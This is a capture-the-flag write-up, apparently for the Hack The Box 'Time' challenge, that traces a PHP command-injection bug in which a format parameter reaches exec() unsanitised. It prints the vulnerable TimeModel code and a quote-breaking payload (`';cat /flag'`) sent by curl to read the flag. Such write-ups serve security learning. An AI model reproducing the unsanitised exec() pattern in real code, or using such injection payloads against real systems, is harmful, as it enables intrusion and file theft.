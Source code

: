 # Time
> Get the current date and time, anytime, anywhere!

![Time homepage](./img/time.png)

After staring this instance and browsing to the given IP, it presented us with a page that simply told the current date / time. Switching between the two showed the changing string formats in the URL right off the bat. `?format=%Y-%m-%d` for the date and `?format=%H:%M:%S` for the time.

The page source was viewable using `Ctrl+U` or browser inspector.
```
<html>
<head>
  <meta name='author' content='makelaris, makelarisjr'>
  <meta name='viewport' content='width=device-width, initial-scale=1, shrink-to-fit=no'>
  <title>Time</title>
  <link link='preload' href='//fonts.googleapis.com/css2?family=Press+Start+2P&display=swap' rel='stylesheet'>
  <link rel='stylesheet' href='//maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' integrity='sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm' crossorigin='anonymous'>
  <link rel='icon' href='/assets/favicon.png' />
  <link rel='stylesheet' href='/static/main.css' />
</head>
<body>
  <nav class="navbar navbar-dark bg-primary navbar-expand-lg mb-4">
    <a class="navbar-brand mb-0" href="?format=%H:%M:%S">🕒 What's the time?</a>
    <div class="collapse navbar-collapse" id="navbarSupportedContent">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="?format=%Y-%m-%d">📅 What's the date? <span class="sr-only">(current)</span></a>
        </li>
      </ul>
    </div>
  </nav>
  <div class="jumbotron vertical-center">
    <div class="container">
      <div class="container">
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> 2021-07-27<span class='text-muted'>.</span></h1>
      </div>
    </div>
  </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

I tried poking at it to assess if it could be an attack vector but didn't seem like it. 

The challenge also provided with the application source code that I could download and understand how it worked. So, that' what I did next.

# Examining the Source Code
Here's what the directory structure looked like:
```
$ tree .
.
├── Dockerfile
├── build_docker.sh
├── challenge
│   ├── Router.php
│   ├── assets
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── static
│   │   └── main.css
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
└── flag
```

The `flag` file in the downloadable src code was not the actual flag. It was a fake flag kept there for testing as a placeholder.
```
$ cat flag
HTB{f4k3_fl4g_f0r_t3st1ng}
```

The actual flag still had to be fetched from the challenge (remote) server, but the flag location was unknown.

Next, I moved on to review some code. From the folders present in the `challenge` directory, it looked like an MVC (Model-View-Controller) architecture. I started off with `controllers/TimeController.php` file. Here are the contents:

```
$ cat controllers/TimeController.php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This code indicated that the controller created a new `TimeModel` object and passes off the `$format` variable to it. This means the input is being handled by the model. It was time to review the model in `models/TimeModel.php` file. Here are the contents:
```
$ cat models/TimeModel.php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Aaaand there was our vulnerability in how the user input was handled and then how it was used. No input validation, no sanitization. The app took whatever we gave it and executed it. Clear **command injection** vulnerability.  

The app constructed the command to be executed using
```
$this->command = "date '+" . $format . "' 2>&1";
```
and finally executed it using
```
$time = exec($this->command);
```

Now I had the vulnerability, but before proceeding I still needed to find the actual flag location. So, I just started briefly reviewing the rest of the src code files and found the flag's real location in the `Dockerfile`. Here are the contents:
```
$ cat Dockerfile
FROM debian:buster-slim

# Setup user
RUN useradd www

# Install system packeges
RUN apt-get update && apt-get install -y supervisor nginx lsb-release wget

# Add repos
RUN wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
RUN echo "deb https://packages.sury.org/php/ $(lsb_release -sc) main" | tee /etc/apt/sources.list.d/php.list

# Install PHP dependencies
RUN apt update && apt install -y php7.4-fpm

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php/7.4/fpm/php-fpm.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /www /var/lib/nginx

# Copy flag
COPY flag /flag

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```
`COPY flag /flag` indicated that the file was available at `/flag` on the remote target.

# Exploit and Solve
I needed to craft an exploit string in a way that would let me "break out" of the quotes and then execute commands. So I wrote `';cat /flag'` and the final input to the application became
```
/?format=%H:%M:%S';cat /flag'
```
On the server side, command that would get executed would look like
```
date '%H:%M:%S';cat /flag'' 2>&1
```

Solve

```
$ curl "http://165.227.225.92:32449/?format=%H:%M:%S';cat /flag'" | grep 'HTB'

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1956    0  1956    0     0   4724      0 --:--:-- --:--:-- --:--:--  4724
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}<span class='text-muted'>.</span></h1>
```

Flag - `HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}`